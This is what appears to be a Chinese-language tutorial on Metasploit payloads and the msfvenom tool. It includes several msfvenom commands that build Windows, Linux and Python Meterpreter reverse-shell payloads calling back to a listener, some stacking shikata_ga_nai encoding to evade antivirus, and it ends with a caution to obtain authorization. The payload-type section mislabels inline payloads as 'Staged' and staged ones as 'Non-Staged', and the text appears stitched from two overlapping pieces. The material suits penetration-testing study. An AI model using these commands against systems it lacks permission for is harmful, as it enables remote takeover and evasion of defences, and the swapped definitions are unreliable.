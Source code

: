 在Metasploit框架中，有效载荷（Payloads）是在成功利用漏洞后发送到目标系统的代码。这些有效载荷可以实现从简单的命令执行到获取完整的系统控制等各种功能。Metasploit提供了多种类型的有效载荷，以适应不同的测试情况和目标。

### 1. 有效载荷类型

有效载荷大致可以分为以下几种类型：

- **Inline Payloads (Staged)**：这些有效载荷是单一的、完整的代码块，包含所有必要的功能，直接执行。
- **Staged Payloads (Non-Staged)**：这些有效载荷分为两部分。首先发送一个较小的“stager”，其作用是建立网络连接，然后通过这个连接传输更大的“stage”部分，包含实际的功能代码。
- **Meterpreter Payloads**：Meterpreter是一个高级的有效载荷，提供了一个丰富的功能集，例如文件系统操作、网络监听、内存中执行和自我隐藏等功能。
- **Command Shell Payloads**：这些有效载荷提供了对目标系统的命令行访问。

### 2. 生成有效载荷

Metasploit 提供了 `msfvenom` 工具来生成单独的有效载荷。这是一个命令行工具，允许用户自定义有效载荷选项，如编码、加密和输出格式。

#### 使用 `msfvenom` 生成有效载荷的基本步骤：

1. **选择有效载荷类型**：首先确定你需要的有效载荷类型（反向连接、绑定到端口、Meterpreter 等）。
2. **配置选项**：设置 IP 地址、端口、输出格式等选项。
3. **生成代码**：执行命令生成有效载荷代码。

#### 示例命令：

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe
```

这条命令生成了一个针对 Windows 的 Meterpreter 反向 TCP 连接的有效载荷，将其输出为一个名为 `shell.exe` 的可执行文件。

### 3. 编码和混淆

- **编码器（Encoders）**：Metasploit 的编码器可用于混淆有效载荷，帮助有效载荷绕过目标机的安全防护措施（如防病毒软件）。例如，`shikata_ga_nai` 是一个流行的编码器。
- **加密**：有效载荷也可以被加密以提供额外的隐蔽性。

### 4. 自定义和脚本化

通过 Metasploit 的 API 或者直接编辑源代码，用户可以自定义或创建完全新的有效载荷。这对于适应特定的测试环境或绕过复杂的安全防护措施特别有用。

通过这些工具和技术，Metasploit 的有效载荷生成功能为安全研究人员提供了极大的灵活性和强大的功能，使其能够有效地评估和增强目标系统的安全性。

`msfvenom` 是 Metasploit 框架中的一个独立工具，专门用于生成各种类型的有效载荷。它结合了之前的 `msfpayload` 和 `msfencode` 工具的功能，使其能够在一个单一的框架下创建、编码和混淆有效载荷。这使得 `msfvenom` 成为渗透测试人员在准备攻击载荷时的强大工具。

### 主要功能

1. **生成各种类型的有效载荷**：
   - 提供反向或绑定的 shell。
   - 生成 Meterpreter 会话。
   - 创建特定于平台的有效载荷（Windows、Linux、Mac OS、Android等）。
2. **有效载荷编码和混淆**：
   - 使用多种编码器来避免有效载荷被目标系统上的安全软件（如防病毒软件）检测到。
   - 支持自动选择编码器以最佳方式避开防护系统。
3. **格式化和输出选项**：
   - 支持多种输出格式，如 raw、Ruby、Python、C、Perl、Executable (EXE) 等。
   - 可直接输出为可执行文件或其他脚本形式，便于直接部署。

### 如何使用 msfvenom

使用 `msfvenom` 的基本步骤通常包括选择有效载荷类型、配置必要的选项（如 LHOST、LPORT）、选择输出格式、并最终生成有效载荷。下面是一些常用的命令示例：

1. **列出所有可用的有效载荷**：

   ```bash
   msfvenom --list payloads
   ```

2. **生成一个简单的 Windows 反向 shell**：

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o reverse.exe
   ```

3. **使用编码器混淆有效载荷**：

   ```bash
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -f elf -o reverse.elf
   ```

   这条命令生成一个 Linux 的 ELF 文件，使用了 `shikata_ga_nai` 编码器来混淆有效载荷，并避开了包含 null 字节的过滤器。

4. **直接生成一个 Python 脚本形式的有效载荷**：

   ```bash
   msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f raw -o reverse.py
   ```

5. **设置多个编码器以增加混淆级别**：

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o reverse.exe
   ```

   其中 `-i 3` 表示对有效载荷进行三次编码。

### 使用建议

- 在生成有效载荷时，了解目标系统的安全环境和防护措施有助于更有效地选择和配置有效载荷。
- 避免在没有适当授权的情况下使用 `msfvenom` 生成和部署有效载荷，始终遵守相关法律和伦理标准。
- 有效载荷生成后，可以使用 Metasploit 的其他工具（如 `msfconsole`）来进一步管理和利用生成的会话。

